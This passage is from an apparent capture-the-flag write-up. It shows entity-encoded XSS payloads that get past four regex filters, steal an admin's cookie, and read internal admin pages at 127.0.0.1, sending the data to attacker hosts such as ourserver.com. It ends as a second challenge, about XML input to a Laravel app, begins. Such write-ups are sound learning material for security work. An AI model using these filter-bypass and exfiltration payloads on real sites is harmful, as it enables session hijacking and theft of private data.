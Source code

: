Okay, so we have to satisfy a certain regexp in our payload. But as soon as we manage to pass through it, another one comes up. In total, there are four regexps that need to be bypassed:

```text
/<[^\w<>]*[ \/]\w*/i 
/<(|\/|[^\/>][^>]+|\/[^>][^>]+)>/i
/["'\(\)\.:\-\+> `]/i
/(\b)(on\S{5,8})(\s*)=|(<\s*)(\/*)script/im
```

After some groping around and reflexion, we manage to find a payload which passes all the filters and does trigger an alert:

```text
<svg/onload=alert&lpar;1&rpar;//
```

We then manage to craft a payload to retrieve the admin's cookies:

```text
<svg/onload=document&period;location=&DiacriticalGrave;//ourserver&period;com/?&DiacriticalGrave;&plus;document&period;cookie;//
```

We are greeted with a PHPSESSID but... no flag on the admin page. We also try to exfiltrate the local storage or check out headers, but still nothing.

This must mean the admin can see things only they can see _locally_. Let's try to craft a payload which allows us to exfiltrate the content of a page of the site, as seen by the admin:

```text
<svg/onload=var&nbsp;x&equals;new&nbsp;XMLHttpRequest&lpar;&rpar;;x&period;open&lpar;&apos;GET&apos;,&apos;http&colon;//127&period;0&period;0&period;1&colon;1234/index&period;php?page=admin&apos;,true&rpar;;x&period;onload=function&lpar;&rpar;{document&period;location=&apos;//ourserver&period;com/?a=&apos;&plus;escape&lpar;x&period;responseText&rpar;};x&period;send&lpar;&rpar;;//
```

Good, we are able to retrieve the contents of the admin page, but... still no flag. It took us longer than expected, but we eventually understood we had to exfiltrate the blog post that had the id 1:

```text
<svg/onload=var&nbsp;x&equals;new&nbsp;XMLHttpRequest&lpar;&rpar;;x&period;open&lpar;&apos;GET&apos;,&apos;http&colon;//127&period;0&period;0&period;1&colon;1234/index&period;php?page=post&id&equals;1&apos;,true&rpar;;x&period;onload=function&lpar;&rpar;{document&period;location=&apos;//truc&period;com/?a=&apos;&plus;escape&lpar;x&period;responseText&rpar;};x&period;send&lpar;&rpar;;//
```

...which contains the flag! `CTF{3B3E64A81963B5E3FAC7DE0CE63966F03559DAF4B61753AADBFBA76855DB5E5A}`

## syntax check \(web\)

In this challenge, we were given a web application and we were told `The flag is in /var/www/html/flag`.

The website only consists of a "Parse" button, which redirects to `/parse?<foo>hi%21<%2Ffoo>=&_token=40rzOC3O8ZiBDeNKTGIcgRtxT5uBgMJb0jpBMdq8`, and which only outputs `"Empty string supplied as input."`. Checking out the source of the page, we understand this is a Laravel error dump.

This is a weird way to pass XML content, though. Let's try sending it in the HTTP body rather than in the URL:
